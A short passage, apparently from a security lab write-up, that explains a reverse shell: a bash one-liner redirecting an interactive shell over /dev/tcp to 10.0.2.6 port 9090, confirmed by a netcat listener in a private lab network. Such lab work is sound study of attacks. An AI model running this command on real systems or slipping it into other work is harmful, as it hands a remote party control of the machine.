 In summary, the following command starts a bash shell on the server machine, with its input coming from a TCP connection, and output going to the same TCP connection.
```bash
/bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1
```
In our experiment, when the bash shell command is executed on 10.0.2.5, it connects back to the netcat process started on 10.0.2.6. This is confirmed via the "Connection from 10.0.2.5 ..." message displayed by netcat.